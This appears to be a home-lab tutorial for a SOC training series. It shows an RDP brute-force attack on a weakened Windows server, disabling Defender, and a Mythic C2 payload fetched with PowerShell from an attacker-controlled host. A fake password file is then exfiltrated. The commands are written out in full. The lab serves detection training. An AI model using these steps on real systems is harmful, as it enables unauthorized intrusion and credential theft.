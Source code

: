 # Day 21: Performing a Brute Force Attack and Establishing a C2 Session

## 1. Introduction

**Goal**: Learn how to perform a Brute Force attack, generate a Mythic agent, and establish a successful C2 session from a Windows server.
## 2. Objective

**Steps**:

- Use Kali Linux to perform a Brute Force attack on a Windows server.
- Perform discovery commands and defense evasion.
- Execute phase four using Mythic C2 to generate a payload with a C2 profile.
- Use PowerShell to download the Mythic agent from the Mythic C2 server.
- Establish a C2 connection and download a password file from the Windows server.

## 3. Preparing the Windows Server

**Steps**:

1. Create a fake file named `passwords.txt` in the Documents folder.
2. Change the password to `Winter2024!`:
    - Go to Start Menu > Username > Change Account Settings > Sign-in Options > Password > Change.
    - Enter current password, then set new password to `Winter2024!`.
    - If password policy requirements are not met, adjust settings in Local Group Policy Editor:
        - Minimum password length: 5 characters.
        - Disable complexity requirements.

## 4. Performing RDP Brute Force Attack

**Steps**:

1. **Log in to Kali Linux machine.**
2. **Use pre-existing word list from Kali Linux:**

Navigate to `/usr/share/wordlists`.
Unzip `rockyou.txt` using `gunzip`.

```
sudo gunzip rockyou.txt.gz
```

Extract first 50 entries and add `Winter2024!` to the list.

```
cat rockyou.txt >>
```

1. **Install and use Crowbar for Brute Force attack:**

Update and upgrade repositories: 

```
sudo apt-get update && sudo apt-get upgrade
```

			 
Install Crowbar: 

```
sudo apt-get install crowbar
```

Create target file with Windows server IP and username.

## 5. Continuing the Brute Force Attack

**Steps**:

1. **Perform Brute Force Attack**:
    
    - Use Crowbar to authenticate with the target IP address using CIDR notation.
    - Command: `crowbar -b rdp -u administrator -C /path/to/wordlist -s <target_ip> -n 32`
    - Successful RDP login with username `administrator` and password `Winter2024!`.
2. **Connect via RDP**:
    
    - Use `xfreerdp` to connect to the Windows server.
    - Command: `xfreerdp /u:administrator /p:Winter2024! /v:<target_ip>:3389`
    - Trust the certificate and establish RDP connection.

## 6. Discovery Commands

**Commands**:

1. **Who Am I**: `whoami`
2. **IP Configuration**: `ipconfig`
3. **Net User**: `net user`
4. **Net Group**: `net group`
5. **Net User (Specific User)**: `net user <username>`

## 7. Defense Evasion

**Steps**:

1. **Disable Windows Defender**:
    - Open Windows Security settings.
    - Disable Real-time protection and other security features.

## 8. Execution Phase

**Steps**:

1. **Build Mythic Agent**:
    
    - Access Mythic web GUI and SSH session.
    - Install Apollo agent:
        - Command: `mythic-cli install github https://github.com/MythicAgents/Apollo`
    - Install HTTP C2 profile:
        - Command: `mythic-cli install github https://github.com/MythicC2Profiles/http`
2. **Create Payload**:
    
    - Generate new payload in Mythic web GUI.
    - Select target machine (Windows) and output format (Windows executable).
    - Include all available commands and set callback host to Mythic server IP.
    - Set callback interval and port.
    - Name the payload with your username and description.

## 9. Downloading and Executing the Payload

**Steps**:

1. **Download Payload**:
    
    - Copy the download link address from Mythic web GUI.
    - Use `wget` with `--no-check-certificate` to download the payload on the Mythic server.
    - Rename the downloaded file to `servicehost-stevenrocks.exe`.
2. **Serve Payload via HTTP**:
    
    - Create a directory and move the payload into it.
    - Use Python's HTTP server module to serve the payload on port 9999.
    - Command: `python3 -m http.server 9999`.
3. **Download Payload on Windows Server**:
    
    - Use PowerShell to download the payload from the Mythic server.
    - Command: `Invoke-WebRequest -Uri http://<Mythic_IP>:9999/servicehost-stevenrocks.exe -OutFile C:\Users\Public\Downloads\servicehost-stevenrocks.exe`.
4. **Execute Payload**:
    
    - Run the downloaded payload on the Windows server.
    - Verify the connection using `netstat` and Task Manager.

## 10. Establishing C2 Connection

**Steps**:

1. **Allow Necessary Ports**:
    
    - Ensure UFW firewall allows ports 9999 and 80.
2. **Verify Connection**:
    
    - Check for established connection using `netstat`.
    - Confirm process ID in Task Manager.
3. **Interact with Active Callback**:
    
    - Use Mythic web GUI to interact with the active callback.
    - Run commands like `whoami` and `ipconfig` to verify the connection.

## 11. Exfiltration

**Steps**:

1. **Download Fake Password File**:
    
    - Use Mythic's download command to retrieve the `passwords.txt` file.
    - Command: `download C:\Users\Administrator\Documents\passwords.txt`.
2. **Verify Download**:
    
    - Check the downloaded file in Mythic web GUI.
    - Confirm the contents of the file.

## 12. Conclusion

**Summary**:

- Successfully performed a Brute Force attack and established a C2 session.
- Downloaded and executed a payload on the Windows server.
- Retrieved a fake password file using the established C2 connection.

**Next Steps**:

- Create alerts and dashboards to detect Mythic activity.
- Participate in the giveaway for a chance to win a free Vulture for the MyDFIR SH Analyst course and TryHackMe passes.